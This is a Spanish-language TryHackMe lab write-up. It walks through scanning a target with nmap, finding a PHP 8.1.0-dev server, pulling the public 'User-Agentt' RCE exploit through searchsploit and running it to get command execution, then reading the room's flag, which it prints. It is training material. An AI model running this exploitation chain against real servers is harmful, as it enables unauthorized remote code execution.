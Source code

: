 Bienvenidos a otra sala de TryHackMe.. En este capitulo explotaremos una pagina web con servicio PHP,  y utilizaremos el comando "__find__" para leer nuestra flag sin necesidad de escalar privilegios.

# Recon
Para inciar nuestro reconocimiento, utilizaremos __nmap__ para escanear puertos abiertos y averiguar versiones del sistema. Ejecutaremos el siguiente comando : `nmap -sS -p- --open --min-rate=5000 -Pn -sV -n -vvv -oN nmap IPTARGET`

```ruby
Nmap scan report for TARGETIP
Host is up, received user-set (0.22s latency).
Scanned at 2023-03-30 18:58:52 EDT for 26s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 62 PHP cli server 5.5 or later (PHP 8.1.0-dev)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

# Research

Nuestro scan de nmap, nos muestra el puerto abierto 80 (http). Al navegar por internet, nos muestra un dashboard de administrador, siempre es positivo realizar una busqueda en toda la pagina web antes de proceder, cualquier tipo de enumeracion es bien recibida a la hora de buscar posibles vulnerabilidades. En este caso, utilizaremos nuestro scaneo de nmap para poder explotarlo de forma correcta.
 Nmap nos muestra la version del servicio, __PHP 8.1.0-dev__. Buscaremos un exploit que se adapte a la version, podremos utilizar "google" o en mi caso, utilizar __searchsploit__, un motor de busqueda de vulnerabildades que podremos obtener informacion y descargarlo.. otra buena opcion es utilizar __exploit-db__. Para buscar dentro de searchsploit, ejecutaremos el siguiente comando : `searchsploit PHP 8.1.0-dev` 

```ruby
Micro Focus Secure Messaging Gateway (SMG) < 471 - Remote Code Execution (Metasploit)                                                                                           | php/webapps/45083.rb
NPDS < 08.06 - Multiple Input Validation Vulnerabilities                                                                                                                        | php/webapps/32689.txt
OPNsense < 19.1.1 - Cross-Site Scripting                                                                                                                                        | php/webapps/46351.txt
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                                                                                                                             | php/webapps/49933.py  "ESTE EXPLOIT ES EL QUE TENDREMOS QUE UTILIZAR"
Plesk < 9.5.4 - Remote Command Execution                                                                                                                                        | php/remote/25986.txt
REDCap < 9.1.2 - Cross-Site Scripting                                                                                                                                           | php/webapps/47146.txt
Responsive FileManager < 9.13.4 - Directory Traversal                                                                                                                           | php/webapps/45271.txt
Responsive Filemanger <= 9.11.0 - Arbitrary File Disclosure                                                                                                                     | php/webapps/41272.txt
ShoreTel Connect ONSITE < 19.49.1500.0 - Multiple Vulnerabilities                                                                                                               | php/webapps/46666.txt
Western Digital Arkeia < 10.0.10 - Remote Code Execution (Metasploit)                                                                                                           | php/remote/28407.rb
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities                                                                                                             | php/webapps/39553.txt
Zoho ManageEngine ADSelfService Plus 5.7 < 5702 build - Cross-Site Scripting                                                                                                    | php/webapps/46815.txt
```

## 
Tendremos un exploit #RCE(__Remote Code Execution__). Esta vulnerabilidad ocurre cuando un atacante puede ejecutar codigo en un sistema remoto de forma no autorizada.

Para descargar este exploit, deberemos ejecutar : `searchsploit -m php/webapps/49933.py`
Obtendremos nuestro exploit, y podremos ver que es un script en lenguaje python que al ejecutarlo nos pedira la direccion URL.

# Exploit

Para ejecutar el script de lenguaje python, tendremos que solicitarle a python que ejecute el script utilizando : `python3 49933.py`. Nos pedira que introduzcamos el sitio a explotar
http://IPTARGET, y obtendremos acceso al servicio asi de simple. Una vez dentro, nos daremos cuenta que no podremos movernos de directorio, pero podremos leer archivos y enumerar directorios utilizando `cat, ls` . 

Para reclamar nuestra flag, primero tendremos que bucarla dentro del sistema. Para esta accion ejecutaremos el comando __find__ y le pediremos que busque el archivo en todo el sistema con el nombre "flag.txt" `find / -type f -name flag.txt`

Nuestra flag se encuentra en el direcorio del sistema,  le echaremos un vistazo con __cat__ para leer la flag y completar la sala. `cat /flag.txt`

# Respuestas

#FLAG = flag{4127d0530abf16d6d23973e3df8dbecb}